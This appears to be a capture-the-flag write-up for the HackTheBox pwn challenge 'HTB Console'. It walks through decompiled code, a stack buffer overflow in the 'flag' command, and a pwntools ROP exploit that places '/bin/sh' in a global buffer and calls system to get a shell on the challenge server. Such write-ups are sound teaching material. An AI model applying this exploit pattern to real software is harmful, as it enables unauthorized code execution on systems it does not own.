 ```yaml
---

title: HTB [HTB CONSOLE] [PWN]

date: 2022-06-03 08:28:05 +0200

categories: [pwn,htb]

tags: [Intro to Binary Exploitation]

excerpt: Write up for the challenge "HTB Console" from HackTheBox
---
```


**Analysis:**

```css
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

**main()**
```c
void main(void)

{
  char local_18 [16];
  
  FUN_00401196();
  puts("Welcome HTB Console Version 0.1 Beta.");
  do {
    printf(">> ");
    fgets(local_18,0x10,stdin);
    FUN_00401201(local_18);
    memset(local_18,0,0x10);
  } while( true );
}
```
- main function gets our input and sends it to `FUN_00401201()`


**FUN_00401201()**
```c

void FUN_00401201(char *param_1)

{
  int iVar1;
  char local_18 [16];
  
  iVar1 = strcmp(param_1,"id\n");
  if (iVar1 == 0) {
    puts("guest(1337) guest(1337) HTB(31337)");
  }
  else {
    iVar1 = strcmp(param_1,"dir\n");
    if (iVar1 == 0) {
      puts("/home/HTB");
    }
    else {
      iVar1 = strcmp(param_1,"flag\n");
      if (iVar1 == 0) {
        printf("Enter flag: ");
        fgets(local_18,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
      else {
        iVar1 = strcmp(param_1,"hof\n");
        if (iVar1 == 0) {
          puts("Register yourself for HTB Hall of Fame!");
          printf("Enter your name: ");
          fgets(&DAT_004040b0,10,stdin);
          puts("See you on HoF soon! :)");
        }
        else {
          iVar1 = strcmp(param_1,"ls\n");
          if (iVar1 == 0) {
            puts("- Boxes");
            puts("- Challenges");
            puts("- Endgames");
            puts("- Fortress");
            puts("- Battlegrounds");
          }
          else {
            iVar1 = strcmp(param_1,"date\n");
            if (iVar1 == 0) {
              system("date");
            }
            else {
              puts("Unrecognized command.");
            }
          }
        }
      }
    }
  }
  return;
}
```

- If we enter certain strings it'll give some command like outputs, but if we enter date, it actually executes system command 'date' and gives us output
- Also there's a buffer overflow in 'flag' option
```c
char local_18 [16]
fgets(local_18,0x30,stdin)
```
- but there's no useful functions are there
- So we can't able to get flag easily


**Exploit strategy:**
- There's system function, so we can use that latter
- But we need `/bin/sh` in argument
- So let's use pop rdi to put that value
- We can't directly put that string in rdi gadget, we need to put address of that string, So we need to store that in a place
- We have several inputs, let's store `/bin/sh` in any one of that and point that address in rdi
- Now time to write our exploit


**Exploit script:**

```python
from pwn import *

elf = context.binary = ELF("./htb-console")
p = elf.process()
p = remote('159.65.19.24',30324)
rop = ROP(elf)

p.sendline('hof')
p.sendline('/bin/sh')
p.sendline('flag')

payload = b'A'*24 # junk
payload += p64(rop.find_gadget(['pop rdi','ret'])[0])
payload += p64(0x004040b0) # pointer to /bin/sh
payload += p64(elf.sym['system']) # calling system

p.sendline(payload)
p.interactive()
```

![](https://i.imgur.com/tdkEeka.png)
- Cool we got our flag

